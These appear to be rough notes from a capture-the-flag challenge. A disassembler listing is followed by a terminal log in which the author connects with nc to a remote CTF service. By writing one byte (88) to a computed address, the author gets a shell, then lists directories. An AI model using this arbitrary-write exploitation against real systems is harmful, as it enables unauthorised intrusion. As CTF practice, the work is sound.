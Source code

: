 ### v                                               XREF[1]:     main:00400762(R)
   ###     00601058 53 53 53 53     undefined4 53535353h
   ### we have to replace 53535353 with 53585353
   but because it is little endian, we need to get it back
 ##  58 is in decimal 88
 ## the value that we needed to write is 88
 ## where do we need to write it? in  00601058 transformed in decimal plus +2 
 
secarea@D1040H:~/pinpoint$ nc 141.85.224.99 31337
address to write to: 6291672
value to write: 88
ls
secarea@D1040H:~/pinpoint$ nc 141.85.224.99 31337
address to write to: 6291673
value to write: 88
ls
secarea@D1040H:~/pinpoint$ nc 141.85.224.99 31337
address to write to: 6291673
value to write: 88
ls
secarea@D1040H:~/pinpoint$ nc 141.85.224.99 31337
address to write to: 6295641
value to write: 88
ls
secarea@D1040H:~/pinpoint$ nc 141.85.224.99 31337
### address to write to: 6295642
### value to write: 88
ls
bin
boot
core
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
cd home
ls
ctf
cat ctf
cat: ctf: Is a directory
cd ctf
ls